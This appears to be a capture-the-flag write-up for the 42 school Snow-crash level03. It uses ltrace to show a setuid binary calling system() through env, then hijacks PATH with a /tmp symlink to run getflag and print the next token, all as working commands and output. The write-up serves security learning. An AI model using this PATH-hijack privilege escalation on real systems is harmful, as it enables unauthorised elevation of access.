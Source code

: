 ```yaml
---
title:  "Snow-crash Level03"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - CyberSecurity
  - Github
  - Git

toc: true
toc_sticky: true

date: 2024-02-12
last_modified_at: 2024-02-12
categories: 
  - ecole42
---
```


#### 1. The password of `level03` is the token that got from `level02`.

```
kooda2puivaav1idi4f57q8iq
```
#### 2. So, try login to level03 with the password we got from level02 and try to put the command `ls`. We can see the file `level03`. 
```bash
level00@SnowCrash:~$ su level03
Password: kooda2puivaav1idi4f57q8iq
level03@SnowCrash:~$ ls
level03
```
#### 3. Try to execute the `level03`. but it says `Exploit me`. 
```bash
level03@SnowCrash:~$ ./level03
Exploit me
```
#### 4. When we check with `cat` command, we can see the file type as below. so, we can assume that it's `binary file`. (A binary file is a computer file that is not a text file.)
```bash
level03@SnowCrash:~$ cat level03
ELF44 	($!444  TTT��(((��hhhDDP�td44Q�tdR�td��/lib/ld-linux.so.2GNUGNUOX�;�Sy8n�n��KT{K �K��3LD= T)__gmon_start__libc.so.
6_IO_stdin_usedsetresgidsetresuidsystemgeteg��geteuid__libc_start_mainGLIBC_2.0ii
...
..
.
```
#### 5. So, let's debug with `ltrace`. `ltrace` is a debugging utility on Unix-like systems that can be used to intercept and display dynamic library calls.

```bash
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7b4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                         = 2003
geteuid()                                         = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                            = 0
+++ exited (status 0) +++
```
We found the echo of "Exploit me", the same result when we execute ./level03 at the beginning.

`system("/usr/bin/env echo Exploit me"Exploit me`

It shows that `echo` command is executed from the located in `/usr/bin/env`.

If so, we can control the execution of the env command by changing the `PATH` environment variable. 

#### 6. To execute the program `getflag` located in `/bin` as if it were echo, we create a symbolic link named echo to pointing `getflag` in `/tmp` directory. By adding `/tmp` to the PATH, we ensure that our fake echo in `/tmp` is executed when `env` searches for the `echo` command. 

```bash
level03@SnowCrash:~$ ln -s /bin/getflag /tmp/echo
level03@SnowCrash:~$ export PATH="/tmp:$PATH"
level03@SnowCrash:~$ ./level03
Check flag.Here is your token :qi0maab88jeaj46qoumi7maus
```
* `ln`: to create the links for the files

* `-s`: option to specify that this will be a symbolic link.

* /bin/getflag : Location that is stored Password

* `export PATH="/tmp:$PATH"` : Add the PATH environment variable to pointing /tmp directory. 


#### 7.  We got a token for next level04

```
qi0maab88jeaj46qoumi7maus
```
